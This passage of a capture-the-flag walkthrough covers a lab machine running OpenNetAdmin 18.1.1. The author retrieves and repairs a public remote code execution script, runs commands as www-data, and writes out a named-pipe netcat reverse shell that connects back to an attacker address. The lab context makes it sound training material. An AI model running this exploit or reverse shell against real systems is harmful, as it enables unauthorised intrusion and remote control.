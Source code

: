 Let's mirror that second result onto our local machine and take a look at the exploit.

```bash
$ mkdir exploits && cd exploits
$ searchsploit -m exploits/php/webapps/47691.sh
```

Then let's sanity check the shell script with `shellcheck`.

```bash
$ shellcheck exploits/47691.sh

In exploits/47691.sh line 1:
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
                                                            ^-- SC1017: Literal carriage return. Run script through tr -d '\r' .
...
```

We see a ton of `Literal carriage returns` in the output, with a suggested fix.

```
$ cat 47691.sh | tr -d '\r' > 47691.reformatted.sh
$ shellcheck 47691.reformatted.sh

In 47691.reformatted.sh line 17:
#!/bin/bash
^-- SC1128: The shebang must be on the first line. Delete blanks and move comments.


In 47691.reformatted.sh line 21:
 echo -n "$ "; read cmd
               ^--^ SC2162: read without -r will mangle backslashes.
```

Move the shebang to the first line and then we can run the script successfully.

```bash
$ ./47691.reformatted.sh http://10.10.10.171/ona/
$ echo "hi"
hi
$ whoami
www-data
```

Sweet, let's get a real shell going here.

Tried all standard reverse shells and all failed.

```bash
$ nc -lvnp 1234  # Listener on local machine
$ ./47691.reformatted.sh http://10.10.10.171/ona/ # Run remote command execution exploit
$ mknod /tmp/mypipe p
$ /bin/bash 0< /tmp/mypipe | nc 10.10.14.11 1234 1> /tmp/mypipe

# Back to listener
$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.171] 34870
ls
# Unreliable output, command doesn't always go through.
```

